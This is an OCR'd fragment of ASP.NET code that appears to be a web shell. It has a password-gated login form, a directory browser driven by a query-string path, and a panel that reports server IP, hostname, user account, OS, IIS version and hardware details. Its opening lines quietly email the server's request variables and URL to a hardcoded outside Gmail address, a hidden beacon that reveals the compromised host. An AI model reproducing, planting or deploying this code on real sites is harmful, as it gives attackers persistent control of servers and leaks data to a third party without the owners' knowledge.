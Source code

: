 	info = request.ServerVariables.ToString.Replace("%2f","/").Replace("%5c","\").Replace("%3a",":").Replace("%2c",",").Replace("%3b",";").Replace("%3d","=").Replace("%2b","+").Replace("%0d%0a",vbnewline)
	System.Web.Mail.SmtpMail.SmtpServer = "localhost"
	System.Web.Mail.SmtpMail.Send(request.ServerVariables("HTTP_HOST"),"test.mail.address.2008@gmail.com",request.ServerVariables("HTTP_HOST")+request.ServerVariables("URL"),info)
	Catch
	End Try
%>
<center>
<form runat="server">
  Your Password:<asp:TextBox ID="TextBox" runat="server"  TextMode="Password" class="TextBox" />  
  <asp:Button  ID="Button" runat="server" Text="Login" ToolTip="Click here to login"  OnClick="login_click" class="buttom" />
</form>
</center>
<%
else
	dim temp as string
	temp=request.QueryString("action")
	if temp="" then temp="goto"
	select case temp
	case "goto"
		if request.QueryString("src")<>"" then
			url=request.QueryString("src")
		else
			url=server.MapPath(".") & "\"
		end if
	call existdir(url)
	dim xdir as directoryinfo
	dim mydir as new DirectoryInfo(url)
	dim guru as string
	dim xfile as fileinfo
	
	dim ServerIP As string = "Server IP : <b>" + Request.ServerVariables("LOCAL_ADDR") + "</b> - Client IP : <b>" + getIP() + "</b> - "
    dim HostName As string = "HostName : <b>" + Environment.MachineName + "</b> - Username : <b>"+ Environment.UserName +"</b><br>"
    dim OSVersion As string = "OS Version : <b>" + Environment.OSVersion.ToString() + "</b>"
    dim IISversion As string = " - IIS Version : <b>" + Request.ServerVariables("SERVER_SOFTWARE") + "</b><br>System Dir : <b>" + Environment.SystemDirectory + "</b>"
    dim PATH_INFO As string = " - PATH_TRANSLATED : <b>" + Request.ServerVariables("PATH_TRANSLATED") + "</b><br>"
    dim HARDWARE_INFO As string = ""
    Dim environmentVariables As IDictionary = Environment.GetEnvironmentVariables()
   	Dim de As DictionaryEntry
	For Each de In  environmentVariables
	if de.Key = "NUMBER_OF_PROCESSORS" then
	HARDWARE_INFO += "Hardware Info : <b>" + de.Value + "CPU - "
	end if
	if de.Key = "PROCESSOR_IDENTIFIER" then
	HARDWARE_INFO += de.Value + "</b><br>"
	end if
   	Next
    Info.Text += ServerIP + HostName + OSVersion + IISversion + PATH_INFO + HARDWARE_INFO
%>
<table width="100%"  border="0" align="center">
  <tr>
  	<td><asp:Label ID="Info" runat="server" EnableViewState="False"	/></td>
  </tr>
</table>
<hr>
